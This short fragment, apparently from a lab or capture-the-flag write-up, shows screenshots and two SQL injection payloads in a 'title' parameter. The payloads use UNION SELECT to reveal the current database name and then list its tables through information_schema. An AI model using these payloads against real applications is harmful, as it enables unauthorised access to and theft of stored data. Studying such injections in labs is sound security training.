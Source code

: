 ![](attachment/93611efe7b15e0e7593a0e6e68dc7603.png)

`title=help' UNION SELECT database(), null, null-- -`
![](attachment/76a15f4f62570b6bdb80c74f21337822.png)

`title=help' UNION SELECT table_name, null, null FROM information_schema.tables WHERE table_schema=database()-- -`